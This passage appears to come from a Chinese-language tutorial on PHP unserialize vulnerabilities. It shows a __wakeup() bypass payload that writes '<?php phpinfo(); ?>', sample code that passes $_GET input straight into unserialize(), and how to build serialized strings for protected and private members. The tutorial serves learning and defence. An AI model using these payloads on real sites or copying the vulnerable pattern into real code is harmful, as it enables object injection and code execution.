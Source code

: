 现在我们根据绕过方法：对象属性个数的值大于真实的属性个数时就会跳过`__wakeup()`的执行，对象个数原来是1我们将其改为2，也就是

```php
O:1:"A":2:{s:6:"target";s:19:"<?php phpinfo(); ?>";}
```

## 当目标对象被private、protected修饰时反序列化漏洞的利用

```php
private属性序列化的时候格式是%00类名%00成员名
protect属性序列化的时候格式是%00*%00成员名
```

### protected

代码如下

```php
<?php
class A{
    protected $test = "hahaha";
    function __destruct(){
        echo $this->test;
    }
}
$a = $_GET['test'];
$b = unserialize($a);
?>
```

利用方式：
先用如下代码输出利用的序列化串

```php
<?php
    class A{
        protected $test = "hacked by ghtwf01";
    }
    $a = new A();
    $b = serialize($a);
    print_r($b);
?>
```

得到`O:1:"A":1:{s:7:"*test";s:17:"hacked by ghtwf01";}`
因为`protected`是`*`号两边都有`%00`，所以必须在`url`上面也加上，否则不会利用成功

### private

代码如下

```php
<?php
class A{
    private  $test = "hahaha";
    function __destruct(){
        echo $this->test;
    }
}
$a = $_GET['test'];
$b = unserialize($a);
?>
```
